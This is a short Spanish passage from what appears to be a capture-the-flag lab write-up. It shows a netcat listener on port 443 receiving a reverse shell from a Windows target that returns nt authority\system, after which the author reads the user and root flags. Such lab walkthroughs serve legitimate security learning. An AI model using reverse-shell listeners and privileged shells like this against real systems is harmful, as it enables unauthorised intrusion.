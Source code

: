 Al mismo tiempo, nos ponemos en escucha por el puerto 443 y esperamos que se establezca la conexión:

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.40] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
whoami
nt authority\system

C:\Windows\system32>
```

A este punto ya ingresamos a la máquina como **nt authority\\system** y podemos visualizar las flags (user.txt y root.txt).
